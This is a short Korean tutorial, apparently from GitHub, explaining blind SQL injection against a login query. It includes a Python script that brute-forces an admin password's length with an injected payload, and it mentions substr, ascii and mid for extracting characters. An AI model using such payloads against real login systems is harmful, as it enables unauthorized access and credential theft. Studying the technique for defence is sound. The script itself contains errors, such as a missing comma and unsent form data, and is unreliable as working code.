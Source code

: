 # blind sql injection

### blind sql injection 이란?

> 임의의 sql 구문을 만들어 데이터를 열람하는 공격이다.

즉 어떠한 데이터베이스에 공격을할때 임의의 query 를 만들어서 반환값을 이용해 한글자씩 따온다.

예 db 구조
```sql
database -> member
tables -> member
column -> (id,pw)
data -> ("admin","password"),("guest","guest")
```
```sql
SELECT * FROM member WHERE id='' and pw='';
```
위의 sql 쿼리로 login 을 체크할 시에
python 으로 blind sql injection 로 예를 든다면

```py
import requests

Url = "in url"

for length in range(1,100):
    data = {
        'uid':f"admin' and length(pw)={length}--'"
        'upw':'a'
    }

    r = requests.post(Url).text

    if r.find("Login succee!") > 0:
        print("admin user length pw : ",length)
        break
```

다음과 같은 예로 data 라는 변수에 dict 형식으로 

blind sqli 에 사용되는 쿼리를 만들어서 

requests 모듈로 요청한 뒤에 find 함수로 로그인 성공 감지됐다면 length 를 출력하는식이다.

* * *

간단하게 length(pw)={length} 에서 {} 안에 for loop 로 브루트포싱하여

참값이 될때까지 반복하는것이다.

위의 블라인드 인젝션이 성공되는 경우에는

```sql
SELECT * FROM member WHERE id='admin' and length(pw)=[1~100]
```

다음 쿼리와 같이 참의 값이 만들어져서 Login 이 우회되는것을 감지한다.

* * *

### length

그리고 mysql 에서 length() 는 안에 들어가는 데이터나 값을 넣으면 해당 데이터의 길이를 반환한다.

### 마무리

blind sqli 에서 length 말고도 다양한 쿼리가 존재한다

substr , left , ascii , mid 등등 다양한 문자열 , 길이를 브루트포싱하기위해 사용되는 함수가 많다.